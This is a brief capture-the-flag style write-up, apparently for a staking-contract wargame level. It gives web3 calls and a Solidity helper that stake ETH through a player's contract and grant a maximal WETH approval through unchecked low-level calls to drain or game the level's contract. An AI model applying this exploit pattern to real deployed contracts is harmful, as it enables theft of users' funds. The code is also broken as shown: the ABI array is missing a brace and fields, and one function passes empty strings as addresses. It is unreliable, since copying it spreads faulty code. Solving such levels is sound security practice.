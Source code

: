 ## Description
Made myself a Stacker because the call will continue to be made from the contract, so that msg.sender would be mine and not the contract's. 
```
const abi = [
	{
		"inputs": [],
		"name": "StakeETH",
		"outputs": [],
		"stateMutability": "payable",
		"type": "function"
	},
		"name": "Unstake",
		"outputs": [
			{
				"internalType": "bool",
				"name": "",
				"type": "bool"
			}
		],
		"stateMutability": "nonpayable",
		"type": "function"
	}
];

const MyContract = new web3.eth.Contract(abi, contract.address);
await MyContract.methods.StakeETH().send({from:player, value: toWei("0.002")})
await MyContract.methods.Unstake(toWei('0.002')).send({from:player})
```
The next step is to approve and call StakeWETH
```
function check()public payable {
        bytes memory data = abi.encodeWithSignature("allowance(address,address)","","");
        bytes memory data2 = abi.encodeWithSignature("approve(address,uint256)","","");
        console.logBytes(data2);
    }

    function approve()public {
        uint256 amount = type(uint64).max;
        WETH.call(abi.encodeWithSelector(0x095ea7b3, address(stake),amount));
        (address(stake)).call(abi.encodeWithSignature("StakeWETH(uint256)", amount));
    }
```


